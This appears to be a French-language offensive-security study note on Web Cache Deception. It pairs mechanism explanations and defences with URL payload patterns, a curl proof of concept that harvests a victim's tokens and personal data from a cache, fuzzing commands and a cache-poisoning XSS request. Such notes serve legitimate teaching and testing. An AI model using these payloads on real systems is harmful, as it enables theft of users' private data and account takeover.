

# 🗑️ Web Cache Deception

> [!info] **En 1 phrase**
> WCD = tromper le **CDN/cache** pour qu'il mette en cache une **page dynamique privée** en la faisant passer
> pour une ressource **statique** (`/account.php/nonexistent.css`) → l'attaquant relit ensuite le cache
> et **vole les données de la victime** (profil, tokens, credentials).
>
> Source principale : **[PayloadsAllTheThings — Web Cache Deception (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Web%20Cache%20Deception/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Le **cache** et le **serveur d'origine** interprètent l'URL **différemment** :
> - le **CDN** décide de la cacheabilité sur l'**extension** (`.css` = statique = on cache) ;
> - l'**origine** sert la **route dynamique** (`/account.php`) en ignorant la fin du path ;
> - résultat : une réponse **privée et dynamique** finit dans le cache **public**.

---

## 🆚 WCD vs Web Cache Poisoning (WCP)

| | **Web Cache Deception** | **Web Cache Poisoning** |
|---|---|---|
| **Objectif** | **Lire** les données d'une autre victime (confidentialité) | **Infecter** le cache pour servir du contenu malveillant à tous |
| **Qui est affecté** | 1 victime ciblée (son contenu privé est volé) | Tous les visiteurs (la charge utile est servie à chacun) |
| **Mécanisme** | URL trompeuse → page dynamique mise en cache | **Input non-keyed** (header, cookie...) injecté dans la réponse **cachée** |
| **Impact** | ATO, fuite de tokens/PII, déni de confidentialité | XSS persistant massif, défacement, drive-by |

> [!warning] ⚠️ **Attention à la terminologie**
> Dans le WCP, l'attaquant contrôle ce qui est **stocké**. Dans le WCD, il contrôle seulement la **URL**
> (la donnée stockée, c'est celle de la **victime**). Deux clés de cache différentes, deux buts opposés.
> Beaucoup de rapports de bug bounty sont à tort étiquetés « WCD » alors qu'il s'agit de WCP — ou l'inverse.

---

## ⚙️ Mécanisme en détail

1. L'attaquant construit un lien vers `http://example.com/home.php/non-existent.css` et le fait ouvrir à une **victime loggée**.
2. Le navigateur de la victime demande cette URL au **cache serveur** (CDN / reverse proxy) : **miss** (pas en cache).
3. La requête est transmise au **serveur d'origine**.
4. L'origine ignore `non-existent.css` et sert le contenu de **`/home.php`** (page de compte, dynamique), avec des headers qui disent en principe *ne pas cacher* (`Cache-Control: private, no-store`...).
5. La réponse repasse par le **cache serveur**.
6. Le cache voit l'**extension `.css`** dans l'URL de requête → décide que c'est une ressource **statique cacheable**.
7. Le cache crée une entrée sous `/home.php/non-existent.css` et y stocke **la réponse privée de la victime**.
8. L'attaquant demande `http://example.com/home.php/non-existent.css` → le cache répond **hit** avec **les données de la victime**.

> [!tip] 💡 C'est la **divergence d'interprétation du path** entre cache et origine qui crée la vulnérabilité,
> pas un défaut de config « classique » du cache. Le cache croit servir du **statique**, l'origine croit servir du **dynamique**.

---

## 🧪 Payloads de base

### Patterns d'URL à tester

```txt
# Extension statique ajoutée à une route dynamique
https://example.com/app/conversation/.js?test
https://example.com/app/conversation/;.js
https://example.com/home.php/non-existent.css

# Version PayPal / page de compte
https://example.com/myaccount/home/malicious.css
https://example.com/account/settings/nonexistent.png

# Séparateur point-virgule (route ou paramètre)
https://example.com/settings/profile;script.js
https://example.com/account.php;.css
https://example.com/account.php;x=1.css

# Slash / double slash / point
https://example.com/account.php//foo.css
https://example.com/account.php./foo.css
https://example.com/account.php%00.css
```

### Encodage & normalisation

```txt
# Path traversal encodé : l'origine résout, le cache ne résout pas
https://example.com/account.php%2f..%2fassets/foo.css
https://example.com/wcd%2f..%2fprofile

# Paramètre fantôme (query confusion) — l'extension est "perdue" dans le paramètre
https://example.com/account.php?x=1
https://example.com/account.php?filename=foo.css
https://example.com/account.php?url=//cdn.example.com/x.js
```

> [!warning] ⚠️ **Désaccord de normalisation (2 axes)**
> - **Délimiteurs** : `/settings/profile;script.js` → l'origine voit `/settings/profile`, le cache voit `.js`.
> - **Traversal** : `/wcd/..%2fprofile` → l'origine décode `%2f` et résout `..` → `/profile`, le cache voit un path "propre" `/wcd/..%2fprofile` avec extension... ou non.
> Le but est **toujours** de créer un path que l'origine ignore partiellement mais que le cache juge **statique**.

---

## 🗂️ Les patterns connus

| Pattern | Exemple | Clé du désaccord |
|---|---|---|
| **Path confusion** | `/account.php/foo.css` | origine route `/account.php`, cache extension `.css` |
| **Extension tricks** | `/.css`, `/.js`, `/.png`, `/.webp` | le cache ne cache que certaines extensions ; tester toutes |
| **`;` separator** | `/settings/profile;.js` | origine coupe au `;`, cache lit jusqu'à `.js` |
| **Query confusion** | `?x=1`, `?filename=foo.css` | l'extension est dans le **paramètre**, le path paraît propre |
| **Double slash / dot** | `//x.css`, `/./x.css`, `/../x.css` | normalisation du path différente selon les composants |
| **Static path prefix** | `/static/account.php/x.css` | préfixe statique → le cache suppose tout le sous-arbre cacheable |
| **Cache key vs cache entry** | clé = path complet, entrée = réponse de la route | la **clé** est l'URL trompeuse, la **réponse** est la page privée |
| **Normalisation (traversal)** | `/wcd/..%2fprofile` | l'origine résout `..`, le cache garde le path encodé tel quel |

> [!info] 💡 **Cache key ≠ contenu**
> Le cache identifie une entrée par une **clé** (souvent le path + une partie des query params).
> Si la page dynamique est servie **sous la clé trompeuse**, c'est exactement ce qu'on veut :
> la clé est `.../foo.css`, l'entrée contient la page privée de `/account.php`.

---

## 💥 Exploitation — vol de données privées

### Cibles classiques

```txt
/account.php           /myaccount/home/       /settings/profile
/api/auth/session      /api/v1/user/me        /dashboard
/cart                  /checkout/payment      /messages
```

> Choisir des pages qui reflètent des **données personnelles** : profil, settings, panier, sessions (JWT), credentials.

### Étapes de l'attaque

1. **Identifier** une page dynamique sensible (endpoint de compte, session).
2. **Choisir** un pattern d'URL qui met la page en cache (ex. `.css`).
3. **Vider / contourner** le cache (buster `?x=123` si le cache ne key pas sur ce paramètre, ou attendre l'expiration).
4. **Envoyer** le lien à la victime (phishing, redirect, XSS...) — elle doit être **loggée**.
5. La réponse de la victime est **mise en cache**.
6. **Relire** le cache avec la même URL → contenu privé de la victime.

> [!warning] ⚠️ **Rôle de la victime**
> Sans victime, il n'y a que votre propre page en cache : l'impact réel exige qu'**un autre utilisateur loggé**
> visite l'URL trompeuse. L'exfiltration passe par votre **propre lecture** du cache, pas par un serveur externe.

---

## 🧪 PoC complet (curl)

```bash
# ========== ÉTAPE 1 : CONFIRMER LE CACHE ==========
# 1a. Baseline sur la page dynamique (normalement PAS cachée)
curl -si "https://target.com/account.php" | grep -iE "cache-control|age|x-cache|x-cache-status|vary"

# 1b. URL trompeuse — vérifier si la réponse devient cacheable
curl -si "https://target.com/account.php/foo.css" | grep -iE "HTTP/|cache-control|age|x-cache|x-cache-status|content-type"

# ========== ÉTAPE 2 : VIDER/ISOLER LE CACHE (buster) ==========
# Un buster = paramètre random que le cache n'inclut PAS dans sa clé
# → chaque buster = entrée de cache distincte, la victime ne pollue pas notre test
BUSTER=$(date +%s%N)
echo "Buster: $BUSTER"

# ========== ÉTAPE 3 : LA VICTIME VISITE ==========
# Le lien envoyé à la victime (doit être ouverte dans SON navigateur loggé) :
#   https://target.com/account.php/foo.css?b=$BUSTER
# (vous : phishing, open redirect, widget, forum...)

# ========== ÉTAPE 4 : L'ATTAQUANT RELIT LE CACHE ==========
curl -s "https://target.com/account.php/foo.css?b=$BUSTER" -o stolen.html
grep -Eo 'session[^&"]*|token[^&"]*|csrf[^&"]*' stolen.html   # tokens
grep -Eo '"email":"[^"]*"|"name":"[^"]*"' stolen.html           # PII
head -c 400 stolen.html                                          # aperçu brut

# ========== ÉTAPE 5 : CONFIRMER LE HIT ==========
curl -si "https://target.com/account.php/foo.css?b=$BUSTER" | grep -iE "age|x-cache|hit"
# Age: 0 → fraîchement caché (par la victime)  |  x-cache: HIT → on lit le cache
```

### Script de test générique (extension fuzzing)

```bash
for ext in .css .js .png .jpg .gif .svg .ico .webp .woff .woff2 .pdf .xml; do
    code=$(curl -s -o /dev/null -w "%{http_code}" "https://target.com/account.php${ext}")
    cache=$(curl -si "https://target.com/account.php${ext}" | grep -iE "x-cache|age" | tr '\n' ' ')
    echo "${ext} → HTTP ${code} | ${cache}"
done
```

---

## 🔗 Combinaisons

### Avec Request Smuggling (HTTP Request Smuggling)

> [!tip] 💡 **Le smuggling fournit la partie dynamique**
> La requête **devant** (front-end) pointe vers une ressource statique innocente (qui sera la **clé de cache**),
> la requête **derrière** (backend) désigne la page **privée**. Le front-end cache la réponse de la seconde
> sous la clé de la première — sans même que la victime ait à cliquer un lien bizarre.

```txt
Requête 1 (front-end, clé de cache = /static/logo.css)
Requête 2 (backend, servie & cachée) = /account.php  → réponse privée en cache
Attaquant lit : GET /static/logo.css → hit → données de la victime
```

- Les payloads de désynchronisation (CL.TE, TE.CL, TE.TE) se combinent parfaitement avec le WCD.
- Permet de viser des URLs « propres » que la victime peut visiter sans éveiller les soupçons.

### Avec XSS (stocké/reflected)

```txt
1. L'attaquant dépose un payload XSS (profil, commentaire...)
2. La victime exécute le script (éventuellement via le lien trompeur lui-même)
3. Le JS demande la page cible avec un buster :  fetch('/account.php/foo.css?b=X')
4. → la page de la victime est cachée, l'attaquant la relit
```
- Le XSS agit comme **gâchette** (trigger) pour faire visiter l'URL trompeuse par la victime.
- Attention : un vrai XSS rend le WCD superflu pour exfiltrer — le WCD devient intéressant quand le XSS est **bloqué** (pas de CSP-libre, pas d'exfil directe).

### « Cache poisoning » trompeur

```txt
Cache key = /index.php/foo.css  →  réponse = page d'accueil (publique)
Un header non keyed (X-Forwarded-Host, X-Host, Cookie...) reflété dans la page
→ la réponse CACHÉE contient notre charge (script) servie à tous
```
- Voir aussi **Web Cache Poisoning** : ici on **contrôle le contenu** de l'entrée de cache, ce n'est plus de la déception mais de l'empoisonnement.
- Les inputs non keyés à tester : `User-Agent`, `Cookie`, `X-Forwarded-Host`, `X-Host`, `X-Forwarded-Server`, `X-Forwarded-Scheme`, `X-Original-URL` (Symfony), `X-Rewrite-URL` (Symfony).

```http
GET /test?buster=123 HTTP/1.1
Host: target.com
X-Forwarded-Host: test"><script>alert(1)</script>

HTTP/1.1 200 OK
Cache-Control: public, no-cache
[...]
<meta property="og:image" content="https://test"><script>alert(1)</script>">
```

---

## 🕵️ Détection du cache & de la vulnérabilité

> [!tip] 💡 **D'abord identifier le cache, ensuite tester la déception.** Un WCD sans cache = inexistant.

### Confirmer qu'un cache existe

```bash
# Headers révélateurs (à grep systématiquement)
curl -si "https://target.com/any-page" | grep -iE "age|x-cache|x-cache-status|via|cf-cache-status|x-served-by|varnish|s-maxage|cache-control"
```

```txt
Age: 120          → entrée en cache (secondes depuis la mise en cache) — MAIS absent sur le 1er hit possible
X-Cache: HIT/MISS (CloudFront/Cloudflare)
CF-Cache-Status: HIT / DYNAMIC / EXPIRED (Cloudflare)
X-Varnish: 12345 12346 / Via: varnish  (Varnish)
s-maxage: 60      → cache partagé (CDN) explicitement activé
```

### Vérifier la cacheabilité d'une page dynamique

```bash
# 1. Tester la page nue (devrait être miss / no-store)
curl -si "https://target.com/account.php" | grep -iE "cache-control|age|cf-cache-status"

# 2. Tester avec l'extension trompeuse — comparer les headers
curl -si "https://target.com/account.php/foo.css" | grep -iE "cache-control|age|cf-cache-status|content-type"

# 3. Deuxième GET identique → Age qui augmente ou x-cache: HIT = le cache a stocké
curl -si "https://target.com/account.php/foo.css" | grep -iE "age|x-cache|cf-cache-status"
```

> [!warning] ⚠️ **Faux positifs**
> - `Age` présent mais **petit et constant** : ok, c'est bien un cache — mais **vérifier que le contenu reflète la session** (donnée privée). Une page publique mise en cache n'est PAS une vulnérabilité.
> - Un header `Cache-Control` **public** n'est pas suffisant : sans **Age**/`X-Cache` il n'y a pas de cache effectif → pas d'exploit.
> - Le premier GET renvoie souvent `Age: 0` ou pas d'`Age` du tout (la réponse vient d'être stockée) : refaire la requête.

---

## 🧰 Outils

| Outil | Usage |
|---|---|
| **Burp Suite (Repeater/Intruder)** | Comparer headers entre URL nue et URL trompeuse ; bruteforce d'extensions |
| **Param Miner (PortSwigger)** | Détecter les **paramètres non keyed** (pour le volet poisoning) |
| **ffuf** | Bruteforce d'extensions / séparateurs sur une route dynamique |
| **curl** | Tests manuels précis (`-si` pour headers, comparaison `Age`/`X-Cache`) |
| **grep CLI** | Filtrer les headers de cache dans les réponses : `grep -iE "x-cache|age|cf-cache-status"` |

```bash
# ffuf : fuzz d'extensions sur une route dynamique (montre les réponses cacheables)
ffuf -u "https://target.com/account.phpFUZZ" -w <(printf ".css\n.js\n.png\n;.js\n/.css\n//.css\n%2f..%2fassets/foo.css\n?x=1\n") -mc all -fc 404 -s

# Récupérer headers de cache seulement
curl -si "https://target.com/account.php/foo.css" | grep -iE "^HTTP|^age:|^x-cache|^cf-cache-status|^cache-control|^content-type"
```

> [!tip] 💡 **Liste des extensions cachées par défaut chez Cloudflare** : `7Z CSV GIF MIDI PNG TIF ZIP AVI DOC GZ MKV PPT TIFF ZST AVIF DOCX ICO MP3 PPTX TTF CSS APK DMG ISO MP4 PS WEBM FLAC BIN EJS JAR OGG RAR WEBP MID BMP EOT JPG OTF SVG WOFF PLS BZ2 EPS JPEG PDF SVGZ WOFF2 TAR CLASS EXE JS PICT SWF XLS XLSX`.
> Si l'extension cible n'est pas dans la liste du CDN, le test échoue **avant** même l'exploitation.

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Ne pas cacher les pages dynamiques** | `Cache-Control: no-store` / `private` sur les endpoints authentifiés et à données sensibles |
| **Cache key sur la requête complète** | Inclure path + query + méthode + `Host` dans la clé ; ne pas décider de la cacheabilité sur l'extension seule |
| **Validation du path côté origine** | Rejeter (`404`/`400`) les paths qui ne matchent aucune route : `/account.php/foo.css` ne doit **pas** retourner `/account.php` |
| **Consistance de normalisation** | Le cache et l'origine doivent résoudre **exactement pareil** (`;`, `..`, `%2f`, `//`, encodages) — sinon désalignement |
| **Cache Deception Armor (Cloudflare)** | Vérifie que l'**extension de l'URL** correspond au **Content-Type renvoyé** — à activer, non défaut par défaut |
| **Auth par défaut** | Ne jamais servir le contenu de `/account.php` pour une URL "inconnue" sans vérifier la session |
| **SameSite=Lax/Strict** | Limite l'exposition aux requêtes cross-site (le lien trompeur reste exploitable en navigation directe, mais réduit la surface via phishing top-level) |
| **Vary / User-Agent de contrôle** | Éviter d'inclure des inputs non keyed reflétés (volet poisoning) |
| **Surveillance** | Alerter sur les motifs `route-dynamique + extension` et sur les pics de requêtes à des URLs `foo.css` "inexistantes" |
| **Tests automatisés** | Règle de CI : tout endpoint retournant `200` pour un path inexistant doit être audité cache + route |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Ordre méthodologique**
> 1. **Trouver le cache** : grep `Age`, `X-Cache`, `CF-Cache-Status`, `Via` sur n'importe quelle réponse.
> 2. **Vérifier la cacheabilité de la page dynamique** : URL nue vs URL + extension → compare les headers.
> 3. **Confirmer le stockage** : 2 requêtes identiques → `Age` croissant / `x-cache: HIT`.
> 4. **Tester les patterns** : `;`, `//`, `%2f..%2f`, `?x=1`, extensions — un par un, avec un **buster**.
> 5. **Exploiter avec une vraie victime loggée**, relire le cache, prouver l'impact (données privées, pas juste `200 OK`).

> [!warning] ⚠️ **Pièges fréquents**
> - **Buster obligatoire** : sans paramètre random, la victime écrase votre entrée de cache ou l'inverse — impossible de prouver qui a caché quoi.
> - **`Age` absent ≠ pas de cache** : sur un miss récent l'`Age` peut manquer. Refaites la requête avant de conclure.
> - **Une page publique cachée n'est pas une vuln** : il faut des **données de session** dans la réponse (PII, tokens, CSRF lié à la session).
> - **Cloudflare ne cache pas l'HTML par défaut** et décide sur **l'extension** (pas le MIME) → un `.css` renvoyé en `text/html` EST parfois caché. Active le **Cache Deception Armor** côté défense.
> - **Exceptions Cloudflare** : `application/octet-stream` (l'extension ne compte plus), `.jpg` servi en `image/webp`, `.gif` en `video/webm`... → testez aussi ces déviations.
> - **Varnish/Apache `mod_cache`** : s'appuient souvent sur `Cache-Control` de la réponse plutôt que l'extension → change de vecteur (souvent pas vulnérable à la déception simple).
> - **Ne pas confondre les 2 vulns dans le rapport** : WCD = lecture de données victime ; WCP = contenu malveillant servi à tous.
> - **Les routes `;.js` / paramètre `;`** ne marchent que si l'origine coupe au `;` **et** que le cache n'utilise pas le même séparateur — testez le délimiteur dans **les deux sens**.
> - **`..` et `%2f`** : le cache normalise souvent avant de comparer → testez aussi le **double encodage** (`%252f`).

---

## 🧪 Labs & Références

- PortSwigger Labs (Web Cache Poisoning / Deception) : https://portswigger.net/web-security/all-labs#web-cache-poisoning
- Liste des délimiteurs (lab PortSwigger) : https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list
- Cache Deception Armor — Cloudflare : https://developers.cloudflare.com/cache/about/default-cache-behavior/

---

## 🔗 Liens

- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- [[HTTP Request Smuggling|🚂 Smuggling]]
- [[Race Condition|🏁 Race Conditions]]
- [[Open Redirect|↩️ Open Redirect]]
- [[SSRF|🌐 SSRF]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — Web Cache Deception](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Web%20Cache%20Deception/README.md)
